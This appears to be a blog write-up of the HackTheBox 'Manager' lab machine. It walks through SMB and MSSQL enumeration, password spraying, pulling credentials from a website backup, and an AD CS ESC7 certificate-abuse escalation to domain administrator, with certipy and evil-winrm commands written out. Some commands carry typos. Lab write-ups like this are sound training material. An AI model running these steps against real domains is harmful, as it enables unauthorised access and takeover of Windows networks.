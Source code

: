 ```yaml
---
layout: post
title: "Manager-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


# Manager

HackTheBox: Medium

## 1: Enumeration

- nmap scanning

 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled.png' | relative_url }})

With Rustscan we found 

> 445 SMB
1433 mssql
464 kpass
88 Kerberos
> 

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_1.png' | relative_url }})

That’s how we find active users in the machine

~Spray all the users found using Crackmapexec

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_2.png' | relative_url }})

## 2: User flag

> Crackmapexec is a useful tool but it is not maintained anymore so we are going to chanche a .py file something with the ssl version.
> 

Enum shared resources

<aside>
💡 Impacket-smbclient
Impacket-mssqlclient

</aside>

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_3.png' | relative_url }})

Once inside of shared resources we were able to access the database tables, we started looking into their contents. We hace content in xp_dirtree

We can check documentation to find web page resources 

```bash
 EXEc xp_dirtree 'C:\inetpub\wwwroot', 1, 1;
```

find a website backup  with creds, use wget to download it locally, using evil-wirm to access

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_4.png' | relative_url }})

## 3: Priv esc

```bash
whoami /groups /priv
```

![Untitled]({{ '/assets/images/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d/b82b0d24-9101-4b29-aa65-1ba36b52f052-export-dce6182c-3eb1-4736-be26-b09b0fa66d1d_Untitled_5.png' | relative_url }})

Evil winrm a advantage, the capacity of upload and create files from remote machine

```bash
upload cerfity.exe
./Certify.exe find /vulnerable
```

> Now we’re gonna use certipy, with an auth we get  specific vulnerabilities and exploit them
> 

```bash
certipy find -u user@--- -p "rtgre" -enable -vulnearable -target manager.htb
```

Vulnerable to ESC7 find mor info [HERE](https://github.com/ly4k/Certipy#esc7) and exploit

```bash
#Add an officer named 'raven' to the CA named 'manager-DC01-CA' given managecertificate rights
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password '<password>' 

#Enable a certificate template named 'SubCA' for the CA 'manager-DC01-CA'.
certipy ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password '<password>' 

#Submit a certificate request for the template 'SubCA' to the CA 'manager-DC01-CA'.
#It fails but we just need the private key to sign the certificate to issue directly
certipy req -username raven@manager.htb -password '<password>' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn administrator@manager.htb 

#Issue the certificate based on the request submitted.
certipy ca -ca "manager-DC01-CA" -issue-request <private_key_id> -username 'raven@manager.htb' -password '<password>' 

#Retrieve the issued certificate.
certipy req -username 'raven@manager.htb' -password '<password>' -ca "manager-DC01-CA" -target manager.htb -retrieve <private_key_id>
```

You’ve got a hash for admin with

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

Whether for some reason it shows you an error message try to sync servers like this

```bash
sudo ntpdate -u manager.htb
```

And finally

```bash
evil-winrm -i 10.10.11.236 -u administrator -H password
```

Machine pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
